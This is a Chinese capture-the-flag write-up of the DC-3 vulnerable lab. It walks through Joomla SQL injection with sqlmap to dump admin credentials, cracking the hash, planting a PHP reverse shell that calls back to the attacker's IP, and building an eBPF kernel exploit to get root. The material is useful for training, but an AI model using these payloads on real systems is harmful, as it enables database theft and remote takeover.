DC-3靶场渗透
0x01 靶场简介原文
DC-3是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
与以前的DC版本一样，这一个是为初学者设计的，尽管这一次，只有一个标志，一个入口点，根本没有线索。
Linux技能和熟悉Linux命令行是必须的，因为是一些基本的渗透测试工具的经验。
对于初学者，谷歌可以提供很大的帮助，但你可以随时在@DCAU7上向我发送推文，以获得帮助，让你再次前进。但请注意：我不会给予你答案，相反，我会给你一个关于如何前进的想法。
对于那些有CTF和Boot2Root挑战经验的人来说，这可能不会花你很长时间（事实上，它可能会花你不到20分钟）。
如果是这样的话，如果你想让它更有挑战性，你总是可以重做挑战，并探索其他获得root和获得标志的方法。
0x02 环境搭建
本次环境为NAT下
攻击机为kali，IP：192.168.86.129
靶机下载（VM版）
用vmware打开即可
0x03 信息收集
1.寻找目标ip
老套路
1
| nmap -sP 192.168.86.0/24
|

dc-3的ip为192.168.86.167
2.扫描开放端口

80端口开放
3.访问web页面

这一次，只有一个flag，一个入口，没有任何线索。
要获得flag，显然必须获得root权限。
你如何获取root权限取决于你–当然，还有系统。
祝你好运–我希望你喜欢这个小挑战。 :-)
与此同时，发现网页的cms是Joomla
4.后台扫描
用御剑扫一下后台

只有第一个能正常访问，是登录页面

5.寻找漏洞
由于不知道Joomla版本，所以先用goby看看有漏洞没

有sql注入漏洞
6.利用漏洞
既然有sql注入，就用sqlmap吧
sqlmap参数：
| 选项 |
描述 |
| –level=LEVEL |
要执行的测试级别（1-5，默认为1，5级payload最多） |
| –risk=RISK |
执行测试的风险（1-3，默认值为1，3级最高危） |
| –random-agent |
使用随机选择的HTTP U-A头 |
| –dbs |
查询所有库 |
1
| sqlmap -u "http://192.168.86.167/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,updatexml(0x23,concat(0x7c,substring(database(),1,10),0x7c),0x7c)" --risk=3 --level=5 --dbs --random-agent -p list[fullordering]
|

找到五个库，根据刚刚goby给出的url，看一下现在用的库名
1
| http://192.168.86.167/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,updatexml(0x23,concat(0x7e,database(),0x7e),0x7c)
|

库名是joomladb，看一下这个库里的表
1
| sqlmap -u "http://192.168.86.167/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,updatexml(0x23,concat(0x7e,database(),0x7e),0x7c)" -D "joomladb" --tables --risk=3 --level=5 --random-agent -p list[fullordering]
|

表挺多，但显然users表更重要一点
1
| sqlmap -u "http://192.168.86.167/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,updatexml(0x23,concat(0x7e,database(),0x7e),0x7c)" -D "joomladb" -T "#__users" --columns --risk=3 --level=5 --random-agent -p list[fullordering]
|

第一个位置选1或者直接回车都行，选2要指定字典路径
第二个箭头指定线程，这里用最大10线程
看到有name和password，查一下
1
| sqlmap -u "http://192.168.86.167/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,updatexml(0x23,concat(0x7e,database(),0x7e),0x7c)" -D "joomladb" -T "#__users" -C "name,password" --dump --risk=3 --level=5 --random-agent -p list[fullordering]
|

就一个用户，是admin，但是密码是加密过的

把密文写进password，用john解密，得到密码是snoopy
可以登陆后台了

“最近的请求被拒绝，因为它包含无效的安全令牌。请刷新页面，然后重试。”
那重新登试试：

啊这
搞了半天以为虚拟机有问题，结果是我的问题，直接访问extensions的上传文件的功能点就行了
在此路径下写一句话，保存

这里有的教程直接给出了路径，不知道是猜的还是咋的，这里用另一种方法
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| 当系统没有禁用proc_popen的时候，我们是可以借助proc_popen轻松反弹这样的一个shell的。
$sock = fsockopen("192.168.86.129", "5555");
$descriptorspec = array(
0 => $sock,
1 => $sock,
2 => $sock
);
$process = proc_open('/bin/sh', $descriptorspec, $pipes);
proc_close($process);
|

保存，访问index.php，同时kali监听5555端口

拿到shell，看一下当前用户权限及系统版本

上网搜一下，可以找到该系统为Ubuntu 16.04，看一下这个系统版本有没有漏洞

39772.txt可以用于本次渗透，用已经拿到的shell把poc下载到靶机中
但是总是下载失败，两个思路，其一是下载到自己电脑上，然后用现成的shell，通过wget命令下载，另一种方法是再传一个一句话的shell，通过蚁剑上传上去，这里选后者
39772.txt中写着poc的地址，下载

1
| https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
|
下载之后直接传上去

然后用拿到的shell解压缩
1
2
3
4
| unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
|
看着有点费劲，获取交互式shell
1
| python3 -c 'import pty; pty.spawn("/bin/bash")'
|
上面箭头给出了用法，直接利用就行了
1
2
| ./compile.sh
./doubleput
|
敲完命令稍等一下，就看到/root下的flag了
